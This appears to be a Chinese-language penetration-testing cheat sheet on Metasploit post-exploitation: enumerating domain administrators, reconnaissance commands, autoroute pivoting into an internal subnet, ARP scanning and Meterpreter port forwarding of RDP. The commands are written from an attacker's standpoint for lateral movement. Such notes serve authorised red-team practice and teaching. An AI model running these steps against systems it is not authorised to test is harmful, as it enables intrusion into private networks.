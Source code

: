 
### 横向

**域管理员嗅探**

```bash
use post/windows/gather/enum_domain
set session 1
exploit
```

---

### 端口转发和内网代理

**网络命令**

```bash
Ipconfig/ifconfig                   # 查看目标主机 IP 地址;
arp -a                              # 用于查看高速缓存中的所有项目;
route                               # 打印路由信息;
netstat -na                         # 可以显示所有连接的端口
```

其中路由信息对于渗透者来说特有用,因为攻击机处于外网,目标主机处于内网,他们之间是不能通信的,故需要添加路由来把攻击机的 IP 添加到内网里面,这样我们就可以横扫内网,就是所谓的内网代理.

首先我们需要获取网段,然后再添加路由,添加成功后就可以横向扫描内网主机.

```bash
run get_local_subnets                   # 获取网段
run autoroute -s 192.168.205.1/24       # 添加路由
run autoroute -p                        # 查看路由
run autoroute -d -s 172.2.175.0         # 删除网段
run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24   # 探测该网段下的存活主机.
meterpreter > background                # 后台 sessions
```

或者自动化

```bash
use post/multi/manage/autoroute
set session 1
exploit
```

**portfwd**

portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令参数.

```bash
portfwd add -l 2222 -r 1.1.1.1 -p 3389  # 将 1.1.1.1 的 3389 端口转发到本地的 2222 端口.
    -l:本地监听端口
    -r:内网目标的 ip
    -p:内网目标的端口

portfwd delete -l [port]
portfwd list

例如:
portfwd add -r 127.0.0.1 -p 3389 -l 1234
```

